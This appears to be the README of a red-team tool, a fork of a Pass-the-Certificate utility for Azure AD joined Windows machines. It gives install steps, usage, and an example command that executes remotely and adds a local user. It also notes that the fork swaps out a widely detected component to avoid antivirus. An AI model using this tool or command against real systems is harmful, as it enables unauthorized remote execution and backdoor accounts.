 A fork of the Pass the Certificate tool by Mor Rubin: https://github.com/morRubin/AzureADJoinedMachinePTC

The original tool invokes remcomsvc which is detected as malicious by almost any vendor.
The tool now simply creates a service with the given command, executes it and deletes the service.
No output will be returned.

#### Disclaimer: This tool is intended solely for educational purposes and authorized Red Team engagements conducted with proper permissions. Unauthorized use of this tool on systems without explicit consent may violate local, national, and international laws. Use responsibly and at your own risk.

## Installation
The code is compatible with Python 3.6+
Download the repository from GitHub, install the dependencies and you should be good to go

```
pip3 install impacket minikerberos cryptography==3.1.1 pyasn1
```

## Usage

```
Main.py [-h] --usercert USERCERT --certpass CERTPASS --remoteip
               REMOTEIP --command COMMAND
```

## Example

```
Main.py --usercert "p2pcert.pfx" --certpass Aa123456 --remoteip 192.168.47.192 --command "net user test Aa123456 /add"
```

## License
MIT

## Credits
* [Mor Rubin] for the amazing research and authentication implementation
